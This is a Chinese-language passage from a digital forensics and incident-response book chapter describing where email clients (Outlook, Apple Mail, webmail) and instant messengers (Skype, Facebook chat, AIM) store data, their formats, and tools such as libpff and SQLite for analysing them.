在本节中，我们将研究与我们遇到的四种最流行的电子邮件客户端相关的工件：Microsoft Outlook for Windows、Microsoft Outlook for OS X、Apple Mail和Web Mail。在我们详细介绍每个客户端之前，我们想简要谈谈处理电子邮件格式的事情。除了本节中涵盖的电子邮件客户端外，还有许多其他不同的电子邮件客户端。使用“应用程序数据存储在哪里？”部分的一般线索，您应该能够找到与任何电子邮件客户端相关的工件。下一个挑战将是分析这些数据。我们发现Aid4Mail和Emailchemy工具能够将许多不同的电子邮件客户端的数据转换为更常见的格式。还有许多其他电子邮件转换工具可供选择，您可以通过任何主要的互联网搜索引擎轻松找到。

**上网找吧**

[www.aid4mail.com/email.ediscovery.forensic.software.php](http://www.aid4mail.com/email.ediscovery.forensic.software.php)[www.weirdkid.com/products/emailchemy](http://www.weirdkid.com/products/emailchemy)

遵循这个一般过程应该能够查看来自几乎任何电子邮件客户端的数据。例如，您可以将Eudora Mail转换为标准的mbox格式，并使用免费的Mozilla Thunderbird电子邮件客户端打开生成的输出。现在让我们继续谈谈Web Mail。

#### **网络电子邮件**

根据2012年和2013年初的许多调查，传统的基于计算机的电子邮件客户端，如Microsoft Outlook，已经成为整体市场份额的一小部分。这些调查表明，网络和移动电子邮件现在占据了超过50％的所有电子邮件客户端，尽管我们的经验表明，在许多企业环境中，仍然广泛使用“厚”客户端，如Microsoft Outlook。Web邮件服务的示例包括Gmail、Hotmail/Outlook.com/Live.com、AOL和Yahoo！，以及Apple iPhone和Android设备上的移动电子邮件。这些服务中的大多数还提供联系人、日历和聊天功能。

对于事件响应人员来说，基于Web的电子邮件服务是一个重大挑战。大多数服务不会在本地系统上存储电子邮件内容。由于用户通过Web浏览器或模拟浏览器的应用程序访问服务，除了浏览器工件外，几乎没有其他工件。您可以在以下文章中了解有关基于Web的电子邮件的挑战以及如何处理它们的一些提示：

**上网找吧**

[www.forensicfocus.com/email-evidence-now-you-see-it](http://www.forensicfocus.com/email-evidence-now-you-see-it)[www.magnetforensics.com/webmail-forensics-digging-deeper-into-the-browser](http://www.magnetforensics.com/webmail-forensics-digging-deeper-into-the-browser)[www.magnetforensics.com/webmail-forensics-part-2-mobile-applications](http://www.magnetforensics.com/webmail-forensics-part-2-mobile-applications)[www.blackhat.com/presentations/bh-usa-03/bh-us-03-akin.pdf](http://www.blackhat.com/presentations/bh-usa-03/bh-us-03-akin.pdf)[hackingexposedcomputerforensicsblog.blogspot.com/2013/09/daily-blog-95-webmail-artifacts-](http://hackingexposedcomputerforensicsblog.blogspot.com/2013/09/daily-blog-95-webmail-artifacts-) from.html

我们发现一些用户配置了“厚客户端”，如Microsoft Outlook，以从基于Web的服务下载电子邮件。在这种情况下，很可能存在基于Web的电子邮件的本地副本。您可以使用我们在本节后面概述的程序来定位和分析电子邮件。

由于基于Web的电子邮件系统不断变化，发现工件的最佳方法是使用一个维护良好的专用工具。传统的取证分析套件（商业和免费）通常会找到一些工件，但通常不如专门工具全面。为了获得最佳结果，我们建议使用Magnet Forensics Internet Evidence Finder、Digital Detective的NetAnalysis或Siquest Internet Examiner Toolkit（以前称为CacheBack）等工具。这些工具相对昂贵，但如果您经常需要检查基于Web的电子邮件，它们将物有所值。

**在网上找到它**

**网络证据调查工具** [www.magnetforensics.com/software/internet-evidence-finder](http://www.magnetforensics.com/software/internet-evidence-finder)**NetAnalysis** [www.digital-detective.co.uk/netanalysis.asp](http://www.digital-detective.co.uk/netanalysis.asp)**Internet Examiner Toolkit** [www.siquest.com](http://www.siquest.com/)

如果这些工具对你的情况没有帮助，你可以围绕相关时间进行全面的时间线分析。包括系统的所有方面，如浏览器历史记录、文件系统、注册表、日志和其他证据来源。务必查看本章的浏览器部分，了解涉及的浏览器类型，以获取额外的想法和指南。在某些情况下，这些步骤可能会提供足够的发现，或者至少提供一些有用的线索。

如果情况需要，你可能可以通过用户同意、搜查令或其他适当的法律程序来获取对电子邮件帐户的访问权限。鉴于发现有用证据的挑战，这些请求的数量随时间增加也就不足为奇了。但务必遵守当地政策和法律，咨询法律顾问，并充分记录任何获取电子邮件帐户访问权限的尝试。在处理电子邮件时，很容易陷入法律困境，因此请及早联系法律顾问，并在整个过程中与他们进行咨询。

#### **适用于Windows的Microsoft Outlook**

我们经常遇到的最常见的电子邮件客户端之一是Microsoft Outlook。尽管存在适用于Windows和Apple操作系统的版本，但我们遇到的最常见的是Windows版本。Outlook自上世纪90年代末就存在，并支持多种不同的电子邮件服务器协议。例如，Outlook可以连接到邮局协议（POP）、Internet消息访问协议（IMAP）、Microsoft Exchange和许多基于Web（或HTTP）的服务。还有许多第三方插件扩展了Outlook的功能，支持其他电子邮件协议、加密方法、与移动设备的集成、社交网络和其他功能。Microsoft使用专有的数据存储技术来存储邮件以及日历、任务和联系人等数据。

#### **数据存储位置**

根据操作系统版本和电子邮件服务器协议的不同，Outlook将数据存储在不同的目录和不同的文件名中。下表列出了常见Windows操作系统的Outlook数据文件的默认位置：

|

```
							Operating

						
					
				 | System Path |
```

| --- | --- | |

```
							Windows Vista/7

						
					
				 | C:\\Users\\{Windows_profile}\\AppData\\Local\\Microsoft\\
```

Outlook\{login_name}.ost

```
							C:\\Users\\{Windows_profile}\\Documents\\Outlook Files\\
```

Outlook.pst | |

```
							Windows 
```

2000/XP

```
				 | C:\\Documents and Settings\\{Windows_profile}\\Local Settings\\Application Data\\Microsoft\\Outlook\\{E-mail_account_name}.pst
```

C:\Documents and Settings\{Windows_profile}\Documents\ Outlook Files\Outlook.pst |

当然，这些目录是文件应该存在的地方。Outlook允许您配置备用位置或附加的数据存储文件。检查已配置在Outlook中的数据文件的可靠位置是Windows注册表键HKEY_CURRENT_USER\Software\Microsoft\Office\{version}\Outlook\Search\Catalog，其中{version}是“短”Office版本号。下表列出了常见的Office版本及其相应的短版本号：

| Office版本  | 短版本号 |
| ----------- | -------- |
| Office 2019 | 2019     |
| Office 2016 | 2016     |
| Office 2013 | 2013     |
| Office 2010 | 2010     |
| Office 2007 | 2007     |
| Office 2003 | 2003     |

|

```
							“Friendly” Version Name 

						
					
				 | Short Version |
```

| --- | --- | |

```
							Microsoft Office XP 

						
					
				 | 10.0 |
```

|

```
							Microsoft Office 2003 

						
					
				 | 11.0 |
```

|

```
							Microsoft Office 2007 

						
					
				 | 12.0 |
```

|

```
							Microsoft Office 2010 

						
					
				 | 14.0 |
```

|

```
							Microsoft Office 2013 

						
					
				 | 15.0 |
```

Outlook也具备配置多个“配置文件”的能力。每个配置文件都有自己的设置，包括电子邮件服务器、电子邮件地址、签名和数据文件。我们之前提到的注册表键中将列出所有配置文件的Outlook数据文件，但对于调查目的，了解是否存在多个配置文件及其名称是很重要的。Outlook配置文件作为键列在HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles下。当同一系统上存在多个配置文件时，了解哪个配置文件是默认配置文件可能很重要。您可以检查注册表键HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\DefaultProfile来确定哪个配置文件被配置为默认的Outlook配置文件。此外，在系统上存在多个配置文件时，当创建新的数据文件时，Outlook数据文件的名称将附加“ - {profile name}”。这样做是为了为属于特定配置文件的每个数据文件创建一个唯一的名称。使用Windows控制面板 | Mail管理功能删除配置文件*不会*删除相关联的数据文件。

#### **数据格式**

Outlook使用一种称为个人文件夹文件（PFF）的文件格式。在基于Microsoft Exchange的环境中，Outlook将离线的电子邮件副本存储在一个称为离线存储表（OST）的文件中，这是一种PFF形式。在非Exchange环境中，如邮局协议（POP）或Outlook存档中，使用的文件格式是个人存储表（PST），也是一种PFF形式。这些文件还包含其他数据，如日历约会和联系人。由于这两种形式都基于PFF格式，大多数解析OST的工具也可以解析PST，反之亦然。

**在网络上获取它 Libpff项目** [code.google.com/p/libpff](http://code.google.com/p/libpff)

尽管PFF格式是专有的，但第三方提供了很好的文档。Libpff项目网站的下载部分包含了几份关于PFF格式的非常好的文档。如果您有兴趣了解PFF格式的所有细节，我们建议您查看这些文档。

#### **工具**

您可以使用两类工具来分析OST和PST文件：

- **商业取证工具** Guidance Software的EnCase和AccessData的FTK可以原生解析和分析OST和PST文件。例如，在EnCase中，您只需右键单击文件，然后选择“查看文件结构”。EnCase将以树状形式显示电子邮件数据文件的内容，您可以像浏览和搜索文件系统一样浏览和搜索。

- **开源工具** 我们所知道的最维护和文档化的开源项目是“libpff”。该项目提供了一个名为“pffexport”的可执行文件的编译代码，可以从OST或PST文件中导出项。在Windows中，您可以使用类似Cygwin的环境编译libpff工具。

  由于不是每个人都能使用商业解决方案，让我们更详细地看看如何使用开源的libpff工具。

  libpff工具只能从该工具的作者处以源代码形式分发。这意味着您必须在使用之前将源代码编译成可执行文件。libpff网站上有一篇很好的维基文章，介绍了如何在多个操作系统和多个构建工具集上构建libpff工具。一旦构建了这些工具，您可以使用pffinfo.exe显示有关文件的基本信息。下面是一个示例：

```
$ ./pffinfo.exe Outlook.pst
pffinfo 20120802
Personal Folder File information:
			 File size:38617088 bytes
       File content type:Personal Storage Tables (PST)
       File type:32-bit
       Encryption type:compressible

Message store:
       Folders:Subtree, Inbox, Outbox, Wastbox,
Sentmail, Views, Common views, Finder
       Password checksum:      N/A
```

要从此PST文件中提取数据，您将使用pffexport.exe。以下命令告诉pffexport从源文件Outlook.pst中提取所有可用的项目类型，并创建一个名为outlook.pst.log的日志文件：

```jsx
$ ./pffexport.exe -m all -l outlook.pst.log Outlook.pst
pffexport 20120802
Opening file.
Recovering items.
Exporting items.
Exporting folder item 1 out of 6.
Exporting folder item 2 out of 6.
Exporting email item 1 out of 1099.
Exporting email item 2 out of 1099.
Exporting recipient.
...
Exporting contact item 105 out of 105.
Exporting folder item 3 out of 6.
Exporting folder item 4 out of 6.
Exporting folder item 5 out of 6.
Exporting folder item 6 out of 6.
Export completed.
```

默认情况下，pffexport将所有提取的数据放置在以源文件名命名的目录中，并在其后附加“.export”。在该目录中将有许多其他目录。根据使用的邮件协议和用户配置选项，邮件数据可能位于多个文件夹中的其中之一。查找邮件的最快方法是搜索名为“Inbox”的文件夹或名为Message.txt或Message.rtf的文件，如下所示。Pffexport为每个项目（例如电子邮件）创建一个顺序命名的文件夹，并将所有相关数据放置在其中，包括消息正文、标题和附件。


#### **Apple Mail（苹果邮件）**

Apple Mail是一个内置的电子邮件客户端，随附于Apple的OS X操作系统中。 Apple Mail支持POP、IMAP和Microsoft Exchange电子邮件协议。Apple Mail是一个流行的OS X电子邮件客户端，因为它是内置的，并且支持所有主要的电子邮件协议。我们看到它在个人和中小型组织中被广泛使用。较大的环境也使用Apple Mail，尽管在这种情况下，Microsoft Outlook for Mac更受欢迎-我们将在下一节中介绍。

#### **数据存储位置**

Apple Mail将所有用户数据存储在一个单独的目录下：/Users/{profile}/Library/Mail。 最近的Mail版本会为每个配置的帐户创建一个目录，该目录位于V2目录下。例如，名为bob@example.com的IMAP帐户的数据将被放置在/Users/{profile}/Library/Mail/V2/IMAP-bob@example.com下。此目录下的文件夹结构将对应于Bob的IMAP帐户中的结构。如果您深入研究此结构，您会注意到每个文件夹在进入实际的电子邮件消息文件之前都包含附加的层级。一个电子邮件消息文件的完整路径示例是/Users/{profile}/Library/Mail/V2/IMAP-bob@example.com/INBOX.mbox/25892e17-80f6-415f-9c65-7395632f0223/Data/Messages/1.emlx。

#### **数据格式**

Apple Mail版本2及更高版本中的电子邮件消息使用“emlx”格式，该格式为纯文本。因此，您可以使用任何基于文本的工具查看和搜索电子邮件消息文件。

#### **工具**

由于Apple Mail电子邮件消息以纯文本形式存储，您可以使用许多工具来检查它们。基本的命令行工具，如grep或strings，可能是您定位感兴趣的消息所需的全部工具。更强大的基于GUI的搜索工具，如PowerGREP，也非常有效。您还可以将emlx格式转换为标准的mbox，并使用免费的电子邮件客户端，如Mozilla Thunderbird来查看电子邮件。

**在Web上获取它**

**PowerGREP** [www.powergrep.com](http://www.powergrep.com/)**Emlx to Mbox Converter** [www.cosmicsoft.net/emlxconvert.html](http://www.cosmicsoft.net/emlxconvert.html)**Mozilla Thunderbird** [www.mozilla.org/en-US/thunderbird](http://www.mozilla.org/en-US/thunderbird)

像EnCase这样的商业工具具有内置的多种功能，以更熟悉的基于树的格式呈现电子邮件数据，更便于查看。

#### **Microsoft Outlook for Mac（Mac版Microsoft Outlook）**

Microsoft Outlook作为Office for Mac Home & Business版的一部分提供。在Outlook for Windows中，Microsoft实施的大多数功能和布局也存在于Outlook for Mac版本中。Outlook的功能也类似于Apple Mail；然而，Outlook for Mac允许用户设置Exchange服务器端规则，并与其他Exchange和Microsoft企业功能（如Lync）集成。因此，Outlook for Mac在较大的环境中更受欢迎-我们很少在小型组织或个人使用中看到Outlook for Mac。

#### **数据存储位置和格式**

Microsoft Outlook for Mac 2011将用户数据存储在目录/Users/{profile}/ Documents/Microsoft User Data/Office 2011 Identities下。默认情况下，Identities目录下会有一个名为“Main Identity”的单一身份。用户可以使用Microsoft Database Utility来管理身份，该实用工具已随Mac版Office Home & Business一同安装。每个身份可以与一个或多个电子邮件帐户关联。一个身份的所有设置和数据都存储在相应身份目录下的一系列目录中。

Microsoft使用专有数据库来跟踪身份和所有相关数据。数据库文件名为“Database”，位于Identities目录下。在Entourage中，Mac上的旧版Microsoft电子邮件客户端，大多数用户数据都存储在数据库文件中，包括消息和其他内容。这导致性能问题，并导致内容的新存储方案。

在Identities目录下，有一个名为“Data Records”的新目录，Outlook的内容存储在其下的一系列文件和目录中。Data Records包含多个子目录，每个主要内容类型对应一个子目录，例如Message Source、Contacts和Categories。在每个内容目录中，数据存储在没有超过1000个文件的目录中。Microsoft使用约定*n*T/*n*B/*n*M/*n*K来为文件夹命名，其中*n*是一个顺序号，T/B/M/K分别表示万/亿/百万/千。根据这个方案，内容文件只存在于*n*K目录中。文件的名称以“olk14{content type}”的扩展名命名，其中{content type}是字符串，例如“Schedule”、“Message”、“MsgSource”或“Recent”。

电子邮件消息内容位于Data Records下的Message Source目录中。这些文件的扩展名为“olk14MsgSource”，采用专有格式，通常包含明文ASCII、Unicode或两者的消息内容。

#### **工具**

Outlook for Mac 2011的存储方法使得在没有更全面的工具的情况下，对其进行有效分析有一定困难。您可以尝试使用标准的文本处理工具，如grep和strings，但要注意可能存在的Unicode字符。建议使用专门支持Outlook for Mac 2011的工具，如Aid4Mail或Emailchemy。并非所有工具都支持正确处理Unicode，即使它们可能只是Unicode格式的标准ASCII字符，也可能无法正确处理它们。

### **即时消息客户端**

即时消息（IM）客户端提供了一种使个人能够实时交流的方式。通信可以是双向的，也可以涉及到多个参与者的群聊会话。IM客户端已经发展到包括文件传输、语音聊天、视频会议、语音电话聊天甚至录制和保存语音邮件等技术。与电子邮件通信不同的是，聊天参与者可以看到他们的聊天伙伴的在线、离线、离开等状态，这取决于客户端的功能。

随着时间的推移，已经开发出了许多IM客户端，并且有许多IM用户的选择。大多数用户根据客户端的功能、易用性、熟悉度、安全性或个人偏好来做出选择。由于用户对额外功能、安全性和错误修补程序的需求，聊天客户端不断演进。大多数IM客户端经常更新，我们无法在一本书中涵盖所有版本。因此，除了介绍一些较受欢迎的客户端及其功能外，我们还讨论了一般的方法和测试环境。

#### **方法论**

IM客户端的频繁更新将要求您能够正确测试每个客户端，以确保从使用的任何工具或方法返回的结果是准确的。我们建议您使用一个记录的测试方法。这可以帮助确保您在基于对IM客户端分析得出的任何结论时不会感到尴尬或错误。

**1. 测试环境** 最好的测试环境将包括使用与调查相关的相同操作系统版本和客户端版本。这可能并不总是可能的，在这种情况下，您需要考虑结果的可信程度。正如前面的章节所介绍的，我们建议进行操作系统或干净的虚拟机（VM）的干净安装，以消除或最小化交叉污染。

**2. 常见的即时消息技术** IM客户端通常基于类似的技术。这些技术定义了客户端传输或存储数据的方式。了解这些协议和语言将帮助您理解测试环境中的变化。了解IM客户端背后的技术还可以帮助您在页面文件、内存或设备上未分配的空间中找到消息。以下是一些常用技术的示例：

- **HTML** HTML（超文本标记语言）是常用于创建简单网页的语言。HTML文本可以使用语言中定义的元素进行格式化，包括字体、颜色、嵌入图片等。启用日志记录时，AIM（AOL即时通讯）消息日志保存为HTML文件。
- **XML** 可扩展标记语言（XML）是一种旨在同时具备人类可读性和机器可读性的语言，通过应用程序设计者指定的任意标签进行标记。Windows Messenger创建的IM日志存储为XML文档。
- **SQLite** SQLite是一种用于存储纯文本和二进制数据的开源关系数据库格式。许多基于Mozilla的应用程序将数据存储在SQL或SQLite数据库中。
- **SOAP** 简单对象访问协议（SOAP）是一种使用各种协议和XML传输数据并保持有序结构的方法。Yahoo！和Gmail的遗留数据通常是嵌入在SOAP封装器中的XML文档。

#### **即时消息**

如前所述，目前有许多不同的即时消息客户端，我们无法涵盖所有。在本节中，我们打算概述一些常见的协议和客户端。即时消息客户端在存储和传输信息以及其功能方面有所不同。在可行的情况下，我们会指定所提供信息适用的即时消息客户端的版本。这是必要的，因为即时消息客户端经常发生变化。

#### **Skype**

Skype最初是由同一扎哈尔开发的VoIP（IP电话）客户端，他们曾在Kazaa - 一种点对点文件共享工具上工作。微软于2011年收购了这项技术，并正在从Windows Live Messenger转向Skype。Skype使用混合的客户端-服务器和点对点协议进行通信。

Skype的功能包括VoIP、视频通话和电话会议、文件共享以及私人和群组聊天会话。与其他Skype用户进行基本的聊天和语音通话是免费的。拨打固定电话或手机需要根据起始地点和目的地支付费用。

**在网上获取它**

[www.skype.com](http://www.skype.com/)

**日志存储** Skype的日志文件位于用户的个人资料中。日志记录默认启用，并且默认的历史记录设置为“永久”。具体的日志路径由操作系统决定，如下表所示：

| Operating System

| Path | | --- | --- | | Windows Vista/7

| C:\Users\{Windows_profile}\AppData\Roaming\Skype\ {Skype_profile}\ | | Windows 2000/XP | C:\Documents and Settings\Application Data\Local\ Skype\{Skype_profile}\ | | Linux | /home/{Linux_profile}/.Skype/{Skype_profile}/ | |  OS X | /Users/{user}/Library/Application Support/Skype/ {Skype_profile}/ |

**日志格式** 聊天记录以一个名为main.db的SQLite3数据库文件进行维护。该文件包含了包括聊天对话的数据库表。您可以使用SQLite浏览器打开该数据库。即时消息存储在数据库的Messages表中。在数据库中，消息的格式以系统中的Skype个人资料名称开头，后跟一个分隔符(/$)，然后是对话伙伴的Skype名称。下面是一个示例：

```
suspect/$chat.dialog.partner
```

当两个聊天伙伴都是已知的时候，可以使用这个来搜索设备上的页面文件、内存和未分配区域中的其他消息。

使用SQLite浏览器（例如SQLiteSpy），您可以加载main.db并使用SQL语句查询数据。您可以运行以下简单查询以显示存储在数据库中的所有消息：

```
SELECT * FROM Messages;
```

**在Web上获取它**

[www.yunqa.de/delphi/doku.php/products/sqlitespy/index](http://www.yunqa.de/delphi/doku.php/products/sqlitespy/index)

表中的字段包括body_xml、author和timestamps。时间戳以UTC的Unix Epoch时间格式存储。

**文物** Skype在main.db数据库中维护了其他的文物。可以使用SQLite3浏览器查看这些文物。其他数据包括通话记录、群组、联系人和语音邮件。在Skype 6.3.60.105版本中，SQLite3浏览器列出了以下表格：


主.db文件中的语音邮件工件列表列出了存储为DAT文件的语音邮件的路径。DAT文件是使用Skype的专有编解码器的音频文件。您可以使用自己安装的Skype在其他系统上播放语音邮件，按照以下步骤进行操作：

1. 在分析系统上的Skype中创建一个语音邮件，并找到配置文件路径中的DAT文件。
2. 用您调查中的语音邮件DAT文件覆盖您创建的DAT文件。
3. 在Skype中选择您替换的语音邮件，播放语音邮件。

**首选项** Skype的首选项主要存储在名为config.xml的XML文件中，位于用户配置文件目录中。请注意，每个用户配置文件目录可能包含一个Skype首选项文件，一台计算机可能有多个首选项文件。一些XML字段具有"plain English"标签。Skype配置文件的联系人存储在config.xml文件中的以下位置：

```
<CentralStorage>
      <SyncSet>
            <u>
```

每个联系人都有自己的标签。例如，如果联系人的配置文件名称是skype.user，则您将在以下标签中看到数据：

```
<skype.user></skype.user>
```

如果配置为记录聊天历史记录，则保留的天数将在以下标签中：

```
<chat>
      <HistoryDays>x</HistoryDays>
</chat>
```

请注意，即使禁用了历史记录，历史记录天数也会有一个值。查找以下标签以查看历史记录是否已禁用：

```
   <Message>
     <DisableHistory>1</DisableHistory>
	</Message>
```

如果值为1，则禁用历史记录，并忽略HistoryDays标签。其他感兴趣的标签包括以下内容：

```jsx
<UI>
<C>
  <Devices>
      <General>

            <AvatarPath>
            <FiletransferDir>
            <LastDialedNumbers2>
            <SkypeHomeLastRead>
            <AvatarPath>

<TransferSaveDir>
```

**工具** 有许多商业工具可用于解析Skype历史记录。您还可以使用SQLite3浏览器检查main.db文件，并可以对数据库运行本机SQL命令以搜索Skype历史记录和文物。XML配置文档可以使用任何标准文本编辑器或Web浏览器查看。下面列出了几种流行的商业工具来检查Skype历史记录：

**在网上获取**

**SkypeAlyzer** [www.sandersonforensics.com](http://www.sandersonforensics.com/)**Skype Analyzer** [home.belkasoft.com/en/bsa/en/Skype_Analyzer.asp](http://home.belkasoft.com/en/bsa/en/Skype_Analyzer.asp)**Skype Log View** [www.nirsoft.net/utils/skype_log_view.html](http://www.nirsoft.net/utils/skype_log_view.html)**Skype Parser** [redwolfcomputerforensics.com/index.php?option=com_content&task=](http://redwolfcomputerforensics.com/index.php?option=com_content&task=) view&id=42&Itemid=55

#### **Facebook聊天**

流行的社交媒体网站Facebook提供了一个内置的基于Web的文本和视频聊天客户端。Facebook用户可以使用该客户端与启用聊天的“好友”列表中的任何人进行交流。该客户端默认将数据记录到用户的Facebook个人资料中，作为服务器上的“消息”。如果接收者在发送聊天时不可用，Facebook服务器将将消息放在其收件箱中，类似于向用户发送离线消息。因此，所有聊天都是通过基于Web的客户端进行的-没有本地软件安装。如果您没有通过搜查令状或其他法律程序获得对用户在Facebook上的帐户的访问权，这将是一个挑战。

**日志存储** Facebook日志不存储在用户的系统上。由于系统是基于Web的，Facebook聊天消息存储在Facebook服务器上。在Web客户端处于活动状态时，可以使用常规的复制/粘贴命令将消息窗口中的消息手动复制出来。否则，聊天会话的文物可能存在于内存、页面文件、休眠文件、未分配空间或Internet浏览器缓存文件中。这些文物是通过间接过程存在的，并且不是出于设计目的而存储的。因此，文物的存在是不可预测的，即使存在，也可能是不完整或不准确的。

**日志格式** 内存中的Facebook聊天消息采用JavaScript对象表示法（JSON）格式。当作为聊天消息发送时，消息将以“msg”标签存储，并包含以下字段：

- “text”（包括消息正文）
- “messageID”
- “time”（消息时间，以UTC时间作为Unix毫秒时间戳）
- “from”（发送者的Facebook ID）
- “to”（接收者的Facebook ID）
- “from_name”（以纯文本表示）
- “to_name”（以纯文本表示）
- “sender_offline”（如果聊天伙伴在发送消息时在线，则为false）

以下是消息的示例（完整的Facebook ID已经被*xxxx*进行了处理）：

```
{"msg":{"text":"This is some chat",
   "messageId":"mid.13674559xxxxx:df1f767dba525b7d49","time":1367418992627,
   "clientTime":1367418992627,"msgID":"13674559xxxxx:2710102545",
   "offline_threading_id":null},"from":1000057544xxxxx,"id":15519xxxxx,
   "to":15519xxxxx,"from_name":"Author_Writer","from_first_name":"Author",
   "to_name":"Recipient_Receiver","to_first_name":"Recipient",
   "tab_type":"friend","sender_offline":false,"show_orca_callout":false
   ,"window_id":"35525xxxxx","type":"msg"
}
```

很不可能在Internet浏览器缓存文件中找到Facebook聊天消息。 主内存是找到消息的最常见位置。至少有一种工具，即Internet证据查找器（IEF），可以从内存镜像中提取聊天片段。此外，您可以尝试对JSON消息格式的部分进行关键字搜索，例如以下内容：

- {“msg”:
- {“text”:
- “from”:
- “id”:

如果您知道发送者和接收者的Facebook ID，最后两个特别有用。每个发送或接收的单个消息都将有一个标记的包装器，如果图像包含大量消息，则该过程会很繁琐。

**物证** Facebook的物证可能会留存在Internet浏览器缓存文件、页面文件、内存或未分配的位置中。在浏览器中本地运行的Facebook不会故意离线存储日志或首选项。

**工具** 由于Facebook不会在用户的本地系统上存储日志，因此几乎没有商业工具可以解析Facebook聊天记录。一种可以解析Facebook聊天消息以及许多其他证据项目的工具是Internet证据查找器（IEF）。IEF可以分析内存镜像中的Facebook聊天项，包括我们在Facebook“日志格式”部分中概述的所有JSON字段。

**在网上获取**

[www.magnetforensics.com](http://www.magnetforensics.com/)

**美国在线即时通讯（AIM）**

AOL即时通讯（AIM）自1997年以来一直作为独立的聊天客户端提供。该客户端使用了AOL专有的名为实时开放系统通信（OSCAR）的协议。尽管最近几年安装AIM的活跃用户数量有所下降，但它仍被广泛用于通信。AIM的功能包括聊天、群聊、视频聊天、文件共享以及自8.0.1.5版本起的短信功能。该客户端还允许直接与Facebook、Twitter、Google Talk和Instagram进行通信。

**在网上获取**

[www.aim.com](http://www.aim.com/)

**日志存储** 从AIM 8.0.1.5版本开始，默认情况下不会本地存储消息日志。您必须遵循适当的法律程序才能获取AIM用户的消息日志。但是，用户可以使用AIM首选项|隐私下的“在此计算机上保存我的聊天副本”选项启用本地日志记录，如下所示：


如果用户配置AIM以在本地存储日志，则日志将存储在用户配置文件的“文档”文件夹中。例如，在Windows 7中，配置文件文件夹将位于C：\ Users \ {Windows_Profile} \ Documents \ AIM Logs \ {AIM_Profile} \。在此文件夹中，日志存储在用作日志名称的AIM登录名的子文件夹中。日志文件存储为以聊天伙伴和服务作为日志名的文件。以下是两个示例：

- user@gmail.com.gchat.html
- 1111111111@chat.facebook.com.html

**日志格式** AIM日志以HTML格式存储。消息包含在<tr>标记中。每条消息都有单独的一行，其中包含UTC中的Unix时间戳，包含消息时间戳作为系统本地时间的本地字段，以及包含消息正文的消息字段。以下是消息的示例：

```
<tr><!--ts:1367611902--><td class="local">Author (16:11:42):</td>
   <td class="msg" width="100%">Hi.</td></tr>
```

此消息中的字段如下：

- **ts**：UTC中的Unix时间戳
- **“local”**：发送消息的本地或远程作者，以及本地系统时间戳
- **“msg”**：包含消息正文

**工件**：从AIM版本8.0.1.5开始，软件不再安装在程序文件目录中。新的默认安装目录是用户的个人资料目录。安装路径通常为C:\Users\{Windows_profile}\AppData\Local\AIM。您可以检查注册表键HKCU\Software\Microsoft\Windows\CurrentVersion\Uninstall\AIM\InstallLocation来确定AIM安装目录，如下所示：


**首选项**：AIM版本8的大多数用户首选项存储在服务器上。这些设置从本地安装继承到本地安装，并缓存在本地SQLite数据库中，路径如下：

|

```
							Operating
```

System

```
				 | Path |
```

| --- | --- | |

```
							Windows 
```

Vista

```
				 | C:\\Users\\{profile}\\AppData\\AOL\\AIM\\cache\\Local Storage\\
```

http_www.aim.com_0.localstorage | |

```
							Windows 
```

2000/XP

```
				 | C:\\Documents and Settings\\{Windows_Profile}\\Local Settings\\Application Data\\AOL\\AIM\\cache\\Local Storage\\http_www.aim.com_0.localstorage |
```

|

```
							OS X 

						
					
				 | /Users/{profile}/Library/Application Support/AOL/AIM/
```

cache/Local Storage |

SQLite数据库包含一个名为ItemTable的单个表，采用简单的键/值对方案，用于存储本地缓存的首选项。如果打开了本地日志记录，则此数据库还将存储聊天消息历史记录作为键/值对。以下是一个示例会话，我们在Cygwin下使用“sqlite3”命令显示数据库架构（“.schema”命令）和显示所有记录（“select * from ItemTable”命令）：

```
$ sqlite3 http_www.aim.com_0.localstorage
SQLite版本3.8.2 2013-12-06 14:53:30
键入“.help”获取指令
键入以“;”结尾的SQL语句
sqlite> .schema
CREATE TABLE ItemTable（key TEXT UNIQUE ON CONFLICT REPLACE，
   value BLOB NOT NULL ON CONFLICT FAIL）;
sqlite> select * from ItemTable;
window-dimension-main|{"x":107,"y":112,"width":750,"height":595}
rememberPassword|0
_aim_session-on-www.aim.com-80-auth-current-userData|{"userName":"bad.guy.2"}
_aim_session-on-www.aim.com-80-auth-current-userName|null
_aim_session-on-www.aim.com-80-auth-hostTimeDelta|85
container-mainpanel-width|240
window-dimension-AIM Preferences|{"x":122,"y":69,"width":720,"height":700}
bad.guy.2local-logging|true
chatlog.bad.guy.2.bad.guy.1.0|{"startDate":1387315093,
   "endDate":1387315093,"messages":[{"sender":"bad.guy.2",
   "msgId":"52b0bf95-0007-00052c-77a355","date":1387315093,
   "message":"<div><span style=\\\\"font-family: arial\\\\">hey dude</span></div>"}]}
chatlog.bad.guy.2.bad.guy.1.info|{"firstIndex":0,"lastIndex":0}
chatlog.largest_chatlogs|{"chats":[{"sessionAimId":"bad.guy.2",
   "chatAimId":"bad.guy.1","chunkCount":1}]}
sqlite>
```

**工具** 由于AIM日志的格式为HTML，任何文本查看器或Web浏览器都可以用于查看消息日志。可以使用消息标记（例如--><td class="local">）来查找内存映像、页面文件和未分配空间中的消息。首选项SQLite数据库可以通过任何常用的SQLite数据库工具查看。此外，名为DCode的免费Windows时间转换工具在处理非人类格式化日期和时间时非常有用：

**去网上获取它**

[www.digital-detective.co.uk/freetools/decode.asp](http://www.digital-detective.co.uk/freetools/decode.asp)

### **那又怎样？**

在调查过程中，操作系统的工件只是整个图像的一部分。与应用程序相关的工件将增加您对事件的理解，并且有时可能是您唯一的证据来源。然而，请记住，操作系统可能会将应用程序工件留在意外的位置，如空闲空间或Windows页面文件，这些位置超出了应用程序的控制范围。

在本章中，我们涵盖了三个主要的应用领域，其中我们发现了证据 - 互联网浏览器，电子邮件客户端和即时消息客户端。我们还涉及了一些其他多次为我们提供有用证据的应用程序。由于我们无法涵盖所有常见应用程序，您应该花时间熟悉您组织中使用的应用程序。编制类似于本章各节的格式的信息 - 数据存储位置，数据格式和工具。结合我们已经讨论的技术和信息，您将可以很好地调查应用程序并解决案件！

### **问题**

1. 在一次调查中，数据库管理员发现从单个工作站运行了数百个执行时间较长的SQL查询。数据库没有记录具体的查询，只记录了日期、时间、源和查询执行时间。您的任务是确定执行了哪些查询。您会如何进行？
2. 您开始调查一个Windows 7计算机，并迅速注意到没有C:\Users目录。假设数据未被删除，请提供一个现实的解释为何没有C:\Users目录，以及如何访问用户数据。
